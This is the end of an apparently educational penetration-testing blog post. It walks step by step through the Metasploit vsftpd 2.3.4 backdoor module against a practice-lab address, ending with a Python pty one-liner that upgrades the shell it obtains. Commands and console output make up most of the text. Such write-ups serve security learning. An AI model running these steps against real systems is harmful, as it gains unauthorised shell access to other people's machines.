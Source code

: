 ```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Set options

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.158
RHOST => 10.10.10.158
```
Port is already set to 21.

Simple use run/exploit command

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

And it will execute and if successful gives you meterpreter shell

In condition to get proper target shell use 'shell' command in meterpreter.

And suppose if you don't have proper tty shell you can use python one-liner to get TTY shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```




## Conclusion

**_In this blog post we have learned some basic approaches to exploit target, you can use some of these approaches in windows target also, like lower hanging fruit._**













